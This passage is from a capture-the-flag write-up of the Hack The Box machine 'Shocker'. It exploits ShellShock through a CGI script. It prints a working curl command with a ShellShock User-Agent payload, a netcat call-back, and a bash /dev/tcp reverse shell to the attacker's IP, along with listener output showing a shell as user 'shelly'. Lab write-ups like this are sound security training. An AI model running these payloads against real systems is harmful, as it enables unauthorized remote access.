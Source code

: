 Next, we need to actually exploit ShellShock - there are super good explanations online for ShellShock, one of my favorites is [here.](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=5ee60f4e-030f-4691-b5b4-dc3c9e3701d4&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments) I recommend reading through that if you're unfamiliar with ShellShock.

So, my actual payload in the `curl` command is<br>
`/bin/bash -c 'echo BRADMAN | nc 10.10.16.192 12345'` <br>
 What this does **echo**'s "BRADMAN" to netcat, but instead of listening, we're actually connecting to an IP Address, specifically, my attacker box, and on the port we opened, 12345. When we execute this curl command, we get the following on our netcat listener:

```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nc -lnvp 12345  
listening on [any] 12345 ...
connect to [10.10.16.192] from (UNKNOWN) [10.10.10.56] 48194
BRADMAN
```

NICE! We were not only able to execute code on the target machine, but actually send a message *back* to our attacker machine! Alright, let's see if we can get a fully interactive reverse shell. We'll try to get a /dev/tcp reverse shell using the following:<br>
`bash -i >& /dev/tcp/10.10.16.192/12345 0>&1`<br>
If this works, we should expect to get a fully interactive reverse shell back on our netcat listener (we'll have to restart our netcat listener).

Exploit:
```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.192/12345 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

Shell:
```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nc -lnvp 12345                                                        130 ⨯
listening on [any] 12345 ...
connect to [10.10.16.192] from (UNKNOWN) [10.10.10.56] 48196
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```
<br><br>

# Escalation

VERY NICE! Okay, we are now controlling the target machine as user `shelly` whomever that is... Let's look around and see if we can escalate our privileges to root.
